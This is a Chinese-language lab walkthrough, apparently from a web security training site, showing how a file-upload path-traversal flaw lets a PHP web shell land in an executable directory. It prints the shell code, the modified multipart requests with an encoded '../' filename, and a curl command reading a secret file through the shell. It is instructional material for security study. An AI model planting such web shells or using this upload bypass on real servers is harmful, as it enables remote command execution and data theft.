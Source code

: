 ### 目录穿越

为了防止攻击者上传恶意文件后执行，部分应用程序会将存放用户上传文件的目录设置为不可执行。访问该类型应用程序特定路径中的 .php , .jsp 等后缀的文件，不会将文件中的代码解释执行。服务器可能会返回某种错误信息，或在某些情况下，仅以纯文本形式返回文件内容：

```
GET /static/exploit.php?command=id HTTP/1.1
    Host: normal-website.com


    HTTP/1.1 200 OK
    Content-Type: text/plain
    Content-Length: 39

    <?php echo system($_GET['command']); ?>
```



部分应用程序可能会不检查上传文件的位置，此时攻击者可以通过进行构造的文件名（例如使用 `../` 等目录穿越方法），将文件上传到其他文件夹中。



使用 BurpSuite 拦截文件上传的 HTTP 请求，HTTP 请求如下。

```
------WebKitFormBoundaryZBZmSwqqBtIuAXZM
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/octet-stream

<?php system($_GET['command']); ?>
```



将 HTTP 请求中的 filename 修改成 `%2E%2E%2Ftest%2Ephp`（URL 编码），此时文件不会上传到 **/files/avatars/**，而是 **/files/** 路径，以下是修改后的 HTTP 请求。

```
------WebKitFormBoundaryZBZmSwqqBtIuAXZM
Content-Disposition: form-data; name="avatar"; filename="%2E%2E%2Fshell%2Ephp"
Content-Type: application/octet-stream

<?php system($_GET['command']); ?>
```



读取 /home/carlos/secret 文件内容。

```
curl -i https://0a68009704c9d467846df13a00650067.web-security-academy.net/files/shell.php?command=cat%20/home/carlos/secret
```

```
HTTP/1.1 200 OK
Date: Sun, 09 Mar 2025 03:09:36 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Set-Cookie: session=BuFaow1I3O6u28n5Gnlnut7lJ6X9KDmF; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 32

9VWhFOyBfawx8yINpEa1Mp6IGYPW6fYj
```
